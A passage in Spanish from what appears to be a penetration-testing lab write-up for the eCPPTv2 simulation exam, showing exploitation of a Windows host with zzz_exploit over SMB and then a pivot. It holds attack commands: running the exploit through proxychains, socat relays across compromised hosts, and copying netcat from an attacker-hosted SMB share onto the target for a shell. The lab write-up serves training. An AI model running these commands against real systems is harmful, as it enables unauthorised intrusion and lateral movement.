 ![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 97.png)

### Uso del zzz_exploit

Ahora se ejecutará el “zzz_exploit” para automatizar el proceso de  explotación del buffer overflow y obtener una shell en la máquina Windows.

```bash
proxychains python2.7 zzz_exploit.py 30.30.30.4

# Si hay errores con dependencias, utilizar un 
# ambiente virtual con python2.7
pip install virtualenv

virtualenv -q $(which python2.7) env1
source env1/bin/activate
pip install impacket
```

Si hay más errores en los decoders, modificar el mysmb.py y, en la línea 89, eliminar el “str.encode(data)” y dejar solo “data”.

Una vez dentro de la máquina se puede ver que hay otra tarjeta de red con una red distinta, esto significa que puede haber más dispositivos conectados directamente.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 98.png)

### Uso de netcat64 para Windows

El problema es que no es una consola totalmente interactiva y no se puede navegar por directorios.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 99.png)

Para solucionar esto, se utilizará netcat para Windows de 64 bits: [https://eternallybored.org/misc/netcat/](https://eternallybored.org/misc/netcat/)

Instalación:

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 100.png)

```bash
unzip -d netcat netcat-win32-1.12.zip
```

Ahora hay que transferir el netcat a la máquina Dumbledore, esto se puede hacer creando un recurso compartido, con SMB, en la máquina del atacante y, a través de socat, se crearán intermediarios para traer la herramienta.

```bash
# En la máquina atacante
impacket-smbserver  smbFolder $(pwd) -smb2support

# En la máquina Aragog
./socat TCP-LISTEN:445,fork TCP:192.168.0.104:445

# En la máquina Nagini
./socat TCP-LISTEN:445,fork TCP:20.20.20.4:445

# En la máquina Dumbledore
dir \\30.30.30.6\smbFolder\
copy \\20.20.20.6\smbFolder\nc64.exe C:\Windows\Temp\nc.exe
```
